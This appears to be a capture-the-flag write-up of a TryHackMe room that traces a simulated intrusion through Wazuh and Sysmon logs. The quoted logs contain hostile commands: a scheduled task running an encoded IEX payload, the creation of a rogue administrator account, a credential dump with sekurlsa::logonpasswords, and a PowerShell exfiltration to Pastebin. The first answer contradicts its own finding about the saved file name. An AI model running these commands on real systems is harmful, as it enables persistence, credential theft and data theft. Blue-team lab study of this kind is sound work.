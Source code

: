 # Monday monitor tryhackme [here](https://tryhackme.com/room/mondaymonitor)

Swiftspend Finance is enhancing its cybersecurity by leveraging **Wazuh** and **Sysmon** for endpoint monitoring. On April 29, 2024, between 12:00:00 and 20:00:00, tests were conducted to detect suspicious activities. This README outlines the investigation of a security incident involving a phishing attachment, scheduled task, credential dumping, and data exfiltration, using Wazuh logs and Sysmon events. The analysis addresses the following questions:

1. File name saved on the host from initial access.
2. Full command used to create a scheduled task.
3. Scheduled task execution time.
4. Decoded content of the encoded data.
5. Password set for the new user account.
6. Name of the executable used to dump credentials.
7. Flag included in the exfiltrated data.

## Incident Overview

The incident involves a phishing attack that downloaded a malicious file, established persistence via a scheduled task, created a new user account, dumped credentials, and exfiltrated sensitive data. Wazuh and Sysmon logs were analyzed to uncover these activities, mapped to MITRE ATT&CK techniques.

## Investigation Steps and Findings

### 1. File Name Saved on the Host
**Question**: What is the file name saved on the host from initial access?

**Search**: Queried Wazuh for `localhost` to identify download events.

**Finding**: A PowerShell command downloaded a file from `http://localhost/SwiftSpend_Financial_Expenses.xlsm` and saved it as `PhishingAttachment.xlsm` in the Temp directory.

**Log**:
```
"powershell.exe" & {$url = 'http://localhost/SwiftSpend_Financial_Expenses.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm}
```
![PowerShell Download Event](./screenshots/1.png)
![Wazuh Dashboard](./screenshots/2.png)

**Answer**: The file saved on the host is `SwiftSpend_Financial_Expenses.xlsm`.

**MITRE ATT&CK**: T1566.001 (Spearphishing Attachment)

### 2. Full Command for Scheduled Task
**Question**: What is the full command run to create a scheduled task?

**Search**: Filtered Wazuh for `scheduler` or `schtasks`, yielding 10 hits, with two suspicious entries.

**Finding**: A command created a scheduled task named `ATOMIC-T1053.005` with a Base64-encoded payload.

**Log**:
```
"cmd.exe" /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34"
```
![Scheduled Task Logs](./screenshots/3.png)
![Scheduled Task Details](./screenshots/4.png)

**Answer**: The full command is:
```
cmd.exe /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34"
```

**MITRE ATT&CK**: T1053.005 (Scheduled Task)

### 3. Scheduled Task Execution Time
**Question**: What time is the scheduled task meant to run?

**Finding**: The scheduled task command specifies `/st 12:34` for daily execution.

**Log Reference**: See above command.

**Answer**: The scheduled task runs at **12:34**.

**MITRE ATT&CK**: T1053.005 (Scheduled Task)

### 4. Decoded Encoded Data
**Question**: What was encoded?

**Search**: Analyzed the Base64-encoded data `cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=` from the scheduled task command.

**Finding**: Decoded using a Base64 decoder, the data translates to `ping www.youarevulnerable.thm`.

![Base64 Decoder Output](./screenshots/6.png)
![Wazuh Log Analysis](./screenshots/7.png)

**Answer**: The encoded data decodes to `ping www.youarevulnerable.thm`.

**MITRE ATT&CK**: T1027 (Obfuscated Files or Information)

### 5. Password for New User Account
**Question**: What password was set for the new user account?

**Search**: Filtered Wazuh for `/add` and `net.exe`, identifying commands related to user account creation. Further searched for `guest` to find the password.

**Finding**: The command `"C:\Windows\system32\net.exe" user guest I_AM_M0NIT0R1NG` sets the password for the `guest` account. Another command adds `guest` to the Administrators group.

**Logs**:
```
"C:\Windows\system32\net.exe" localgroup Administrators guest /add
"C:\Windows\system32\net.exe" user guest I_AM_M0NIT0R1NG
```
![User Account Creation](./screenshots/8.png)
![Guest Account Password](./screenshots/9.png)

**Answer**: The password for the new user account is `I_AM_M0NIT0R1NG`.

**MITRE ATT&CK**: T1078.003 (Local Accounts)
### 6. Executable for Credential Dumping
**Question**: What is the name of the .exe that was used to dump credentials?

**Search**: Queried Wazuh for `*dump*`, yielding 15 hits, with relevant entries involving `memotech.exe`.

**Finding**: The command uses `memotech.exe` to perform credential dumping via `sekurlsa::minidump` and `sekurlsa::logonpasswords`.

**Log**:
```
"C:\Tools\AtomicRedTeam\atomics\T1003.001\bin\x64\memotech.exe" "sekurlsa::minidump C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP" "sekurlsa::logonpasswords full" exit
```
![Credential Dumping Event](./screenshots/11.png)

**Answer**: The executable used is `memotech.exe`.

**MITRE ATT&CK**: T1003.001 (LSASS Memory Dumping)

### 7. Flag in Exfiltrated Data
**Question**: What was the flag that was part of the exfiltrated data?

**Search**: Filtered Wazuh for `*Post*`, identifying a PowerShell command sending data to Pastebin.

**Finding**: The command includes a flag `THM{M0N1T0R_1$_1N_3FF3CT}` in the exfiltrated content.

**Log**:
```
"powershell.exe" & {$apiKey = "6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0" $content = "secrets, api keys, passwords, THM{M0N1T0R_1$_1N_3FF3CT}, confidential, private, wall, redeem..." $url = "https://pastebin.com/api/api_post.php" $postData = @{ api_dev_key = $apiKey api_option = "paste" api_paste_code = $content } $response = Invoke-RestMethod -Uri $url -Method Post -Body $postData Write-Host "Your paste URL: $response"}
```
![Data Exfiltration Log](./screenshots/12.png)

**Answer**: The flag is `THM{M0N1T0R_1$_1N_3FF3CT}`.

**MITRE ATT&CK**: T1567 (Exfiltration Over Web Service)
## Wazuh and Sysmon Configuration


## Documentation
- Wazuh: [documentation.wazuh.com](https://documentation.wazuh.com)
- Sysmon: [Sysmon Community Guide](https://github.com/trustedsec/SysmonCommunityGuide)
- Osquery: [osquery.io](https://osquery.io)
